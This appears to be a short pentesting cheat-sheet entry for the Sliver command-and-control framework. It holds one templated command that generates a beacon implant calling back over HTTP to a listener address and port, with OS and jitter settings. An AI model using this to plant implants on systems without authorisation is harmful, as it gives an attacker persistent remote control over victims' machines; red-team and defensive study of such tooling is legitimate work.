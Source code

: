 # sliver

% sliver, C2


## generation - beacon
```bash
generate beacon -N <beacon_name> --http <l_ip>:<l_port> --os <os|windows> --seconds <sec> --jitter <sec>
```

